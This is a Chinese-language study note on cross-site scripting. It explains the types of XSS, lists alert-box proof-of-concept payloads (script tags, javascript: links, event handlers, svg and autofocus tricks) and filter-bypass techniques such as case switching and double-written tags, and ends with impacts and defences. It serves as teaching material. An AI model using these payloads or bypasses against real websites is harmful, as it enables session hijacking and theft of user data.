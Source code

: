 ## XSS原理：
跨站脚本攻击（Cross Site Script），攻击者往web页面或者url里插入恶意JavaScript脚本代码，如果web应用程序对于用户输入的内容没有过滤，那么当正常用户浏览该网页的时候，恶意代码会被执行，从而达到恶意攻击正常用户的目的。

## 漏洞产生条件：
（1）用户可以控制的输入点</br>
（2）输入能返回到前端页面上被浏览器当成脚本语言解析执行

## XSS分类：
反射性XSS：存储区（URL）；插入点（HTML）</br>
存储型XSS：存储区（后端数据库）；插入点（HTML）</br>
DOM型XSS：存储区（URL/后端数据库/前端储存）；插入点（前端JavaScript）

## 利用方式：
### XSS平台：在线XSS平台或自己搭建的XSS平台
### beef软件
### XSS变形：
** 1.利用<>构造html/JS: **
```
<script>alert(/xss/)</script>
```
** 2.伪协议方式构造XSS：** </br>
```
<a href="javascript:alert(/xss/)>touch me</a>
<a href="javascript:alert(/xss/)>touch me</a>
```
** 3.事件利用：** </br>
```
<img src='./smile.jpg' onmouseover='alert(/xss/)'>
<input type="text" onkeydown="alert(/xss/)">
<input type="text" onkeyup="alert(/xss/)">
<input type="button" onclick="alert(/xss/)">
<img src='#' onerror='alert(/xss/)'>
 ```
** 4.利用CSS触发XSS（过时）** </br>
行内样式</br>
```
<div style='backgroud-image:url(javascript(/xss/))'>
```
页内样式</br>
  ```
<style>=Body{backgroud-image:url(javascript(/xss/))}</style>
```
外部样式</br>
  ```
<link rel="stylesheet" type="text/css" href="./xss.css"><div>hello<div>
```
** 5.其他标签以及手法**</br>
```
<svg onload="alert(/xss/)"></br>
<input onfocus=alert(/xss/) autofocus></br>
```
### XSS绕过
（1）大小写转换</br>
（2）引号使用：HTML中对引号使用不敏感，但是过滤函数对引号很严格</br>
（3）左斜杠（/）代替空格</br>
（4）双写绕过：<scri<script>pt></br>
（5）对标签属性值进行转码，用来绕过过滤</br>
（6）拆分跨站</br>
（7）css中的变形

## 漏洞危害：
（1）窃取用户cookie，冒充用户身份进入网站</br>
（2）键盘记录</br>
（3）客户端信息探查</br>
（4）XSS getshell</br>
（5）劫持用户会话，执行任意操作</br>
（6）刷流量，执行弹窗广告</br>
（7）传播蠕虫病毒……

## 漏洞防御：
（1）使用XSS filter，过滤用户（客户端）提交的有害信息；</br>
（2）输入过滤，对所有用户输入的内容都有进行过滤；</br>
（3）输入验证，对用户提交的信息进行有效验证（是否包含合法字符、字符串长度限制、是否符合特殊格式要求等等）</br>
（4）输出编码（htmlspecialchars函数），HTML编码主要是用对应的HTML实体代替字符。
